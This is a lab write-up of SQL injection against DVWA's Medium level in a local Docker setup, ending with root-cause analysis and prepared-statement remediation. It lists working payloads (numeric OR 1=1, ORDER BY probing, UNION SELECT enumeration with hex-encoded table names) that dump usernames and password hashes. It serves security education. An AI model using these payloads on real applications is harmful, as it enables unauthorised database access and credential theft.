










# DVWA — SQL Injection (Medium)

In this lab, I tested DVWA's **SQL Injection** module at the `Medium` security level.

Compared with Low, the application replaced the text field with a dropdown and escaped quote characters. My goal was to test whether those controls actually prevented SQL injection, then enumerate the database and extract data from the `users` table.



## Environment

- DVWA running locally with Docker
- Security level: `Medium`
- Database: MariaDB
- Proxy: Caido
- Testing performed only in my local lab

## Bypassing the dropdown

The `User ID` field only allowed values from a dropdown, so I intercepted a normal submission with Caido:

```http
POST /vulnerabilities/sqli/ HTTP/1.1

id=1&Submit=Submit
```

The server returned the expected data for user ID `1`. Since the value was sent in a POST parameter, I could modify it in the intercepted request even though the browser did not provide a text field.





## Finding the injection context

I first added a single quote:

```http
id=1'&Submit=Submit
```

The application returned a detailed `mysqli_sql_exception` from `medium.php`. This showed that the value still reached the SQL query and that database errors were exposed to the user.

I then tried a Boolean payload similar to the one used at Low:

```http
id=1' OR 1=1 -- &Submit=Submit
```


It failed because the quote was escaped. I removed the quote and tested:


```http
id=1 OR 1=1 -- &Submit=Submit
```

This returned every user:

```text
admin
Gordon Brown
Hack Me
Pablo Picasso
Bob Smith
```



A false condition returned no results:

```http
id=1 OR 1=2 -- &Submit=Submit
```

The different responses confirmed that `id` was being evaluated as SQL in a **numeric context**. A quote was not required to change the query logic.

## A wrong assumption about hexadecimal input

I also tested:

```http
id=0x27 OR 1=1 -- &Submit=Submit
```

The application returned all users. At first, I thought `0x27` might have acted as an encoded single quote. That was not what happened: in this context MariaDB interpreted `0x27` as a hexadecimal literal, while the result came from the true `OR 1=1` condition.

The hexadecimal technique became useful later, when I needed to represent a string without quotes.

## Finding the number of columns

I increased the `ORDER BY` position until the query failed:

```http
id=1 ORDER BY 1 -- &Submit=Submit
```

```http
id=1 ORDER BY 2 -- &Submit=Submit
```

Both worked. The next payload returned `Unknown column '3' in 'ORDER BY'`:

```http
id=1 ORDER BY 3 -- &Submit=Submit
```

This confirmed that the original query returned two columns.



## Confirming UNION-based injection

I tested two numeric values to match the column count:

```http
id=1 UNION SELECT 999,888 -- &Submit=Submit
```

The response displayed both values:

```text
First name: 999
Surname: 888
```



This confirmed that both columns were reflected in the page and could be used to extract database information.

Quoted strings still failed because the application escaped the quotes:

```http
id=1 UNION SELECT 'TEST','TEST2' -- &Submit=Submit
```

## Database information

I retrieved the database version and current database name with built-in MariaDB functions:

```http
id=1 UNION SELECT VERSION(),DATABASE() -- &Submit=Submit
```

The application returned:

```text
10.11.18-MariaDB-ubu2204
dvwa
```



## Enumerating tables

I queried `information_schema.tables` using `DATABASE()` so I did not need a quoted schema name:

```sql
1 UNION SELECT table_name,NULL
FROM information_schema.tables
WHERE table_schema=DATABASE() -- 
```

The following tables were returned:

```text
guestbook
access_log
users
security_log
```

## Enumerating columns from the users table

To filter by the string `users`, I could not use normal quotes because they were escaped. I converted the word to hexadecimal in PowerShell:

```powershell
[System.BitConverter]::ToString(
    [System.Text.Encoding]::UTF8.GetBytes("users")
).Replace("-", "")
```

Output:

```text
7573657273
```

With the MariaDB `0x` prefix, the value became `0x7573657273`. I used it in the query:

```sql
1 UNION SELECT column_name,NULL
FROM information_schema.columns
WHERE table_schema=DATABASE()
AND table_name=0x7573657273 -- 
```

The application returned:

```text
user_id
first_name
last_name
user
password
avatar
last_login
failed_login
role
account_enabled
```



Here, unlike in my earlier `0x27` test, hexadecimal was useful because it represented the string `users` without quote characters.

## Extracting usernames and password hashes

After identifying the relevant columns, I queried them directly:

```sql
1 UNION SELECT user,password
FROM users -- 
```

The application returned:

```text
admin   5f4dcc3b5aa765d61d8327deb882cf99
gordonb e99a18c428cb38d5f260853678922e03
1337    8d3533d75ae2c3966d7e0d4fcc69216b
pablo   0d107d09f5bbe40cade3de5c71e9e9b7
smithy  5f4dcc3b5aa765d61d8327deb882cf99
```



This demonstrated that the vulnerability allowed database schema enumeration and extraction of sensitive application data.

## Root cause

The Medium level attempted to reduce the risk by using a dropdown and escaping quote characters:

```php
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $_POST["id"]);

$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

Neither control separated the input from the SQL query:

- The dropdown only restricted the browser interface; the POST parameter could still be modified.
- Quote escaping did not prevent SQL operators, functions, or `UNION SELECT` in an unquoted numeric context.

## Remediation

The application should use a prepared statement and bind `id` as an integer:

```php
$stmt = $mysqli->prepare(
    "SELECT first_name, last_name FROM users WHERE user_id = ?"
);

$stmt->bind_param("i", $id);
$stmt->execute();
```

Additional protections include:

- Validate the expected type and reject invalid values server-side.
- Disable detailed database errors in production.
- Give the database account only the permissions the application needs.
- Store passwords with a modern password-hashing algorithm such as Argon2id or bcrypt.

## Conclusion

The Medium level changed the exploitation path but did not fix the vulnerability. Once I identified that `id` was inserted into an unquoted numeric context, I could inject SQL without using quotes.

The useful flow was:

```text
Intercept the dropdown request
-> Identify the numeric context
-> Confirm true and false conditions
-> Find the column count
-> Confirm reflected UNION columns
-> Enumerate the database
-> Use hexadecimal for a required string
-> Extract data from users
```

The main lesson was that escaping selected characters is not a reliable SQL injection defense. User-controlled values must be kept separate from SQL syntax through parameterized queries.
